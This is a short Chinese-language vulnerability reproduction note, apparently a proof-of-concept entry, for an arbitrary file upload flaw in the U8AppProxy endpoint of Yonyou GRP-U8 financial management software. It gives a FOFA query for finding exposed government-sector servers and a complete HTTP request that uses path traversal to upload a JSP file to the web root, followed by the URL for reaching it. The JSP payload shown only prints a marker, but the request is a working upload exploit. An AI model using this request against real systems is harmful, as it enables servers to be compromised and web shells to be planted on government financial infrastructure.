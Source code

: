 ## 0x00 漏洞介绍

    用友GRP-U8R10行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 U8AppProxy接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。
    
## 0x01 漏洞复现

   FOFA搜索title="用友GRP-U8行政事业内控管理软件"
   
   上传londly到跟目录
   
   ```
   POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=635F2271089E7A7E66F3F84824553DEE
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 01 Feb 2016 08:01:00 GMT
If-None-Match: W/"5732-1454313660000"
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
Content-Length: 194

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="londly.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
   ```
   
访问 http://xxxxxxxxxxxx/londly.jsp  

## 0x02 python利用脚本
        自己写的利用脚本在附件
  
   
